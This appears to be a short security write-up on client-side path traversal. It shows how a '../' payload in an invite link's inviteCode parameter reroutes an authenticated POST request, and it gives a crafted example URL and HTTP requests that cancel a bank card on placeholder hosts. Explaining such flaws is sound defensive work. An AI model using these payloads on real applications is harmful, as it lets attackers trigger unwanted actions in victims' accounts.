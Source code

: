 {% embed url="https://www.erasec.be/blog/client-side-path-manipulation/" %}

**Normal Workflow**

When a user clicked the invite link, it triggered a series of requests, including a POST request to the backend with the `inviteCode` and the user’s email.

`https://example.com/signup/invite?email=foo%40bar.com&inviteCode=123456789`

```http
POST /invite/123456789/check HTTP/1.1
Host: backend.example.com
X-Xsrf-Token: My-CSRF-TOKEN
Content-Type: application/json
Content-Length: 41

{"email":"foo@bar.com"}
```

**Exploitation via Path Manipulation**

By modifying the `inviteCode` parameter to include a path traversal payload (e.g., `inviteCode=123456789/../../../FOO`), the attacker could change the destination of the POST request. This manipulation allowed the attacker to target other endpoints on the backend, such as the endpoint to cancel a bank card.

`https://example.com/signup/invite?email=foo%40bar.com&inviteCode=123456789/../../../FOO`

```http
POST /FOO/check HTTP/1.1
Host: backend.example.com
Content-Type: application/json
X-Xsrf-Token: My-CSRF-TOKEN
Content-Length: 41
Origin: https://example.com
Connection: close

{"email":"foo@bar.com"}
```

**The Attack**

The crafted invite link was designed to exploit the path traversal vulnerability, altering the final destination URL of the POST request. When an authenticated admin clicked the link, the request was sent to the backend, effectively canceling a bank card without their knowledge. This was possible even though the body of the request remained unchanged.

`https://example.com/signup/invite?email=foo%40bar.com&inviteCode=123456789/../../../cards/123e4567-e89b-42d3-a456-556642440000/cancel?a=`

```http
POST /cards/123e4567-e89b-42d3-a456-556642440000/cancel?a=/check HTTP/1.1
Host: backend.example.com
Accept: application/json; charset=utf-8
X-Xsrf-Token: MY-CSRF-TOKEN
Content-Length: 41
Origin: https://example.com

{"email":"foo@bar.com"}
```
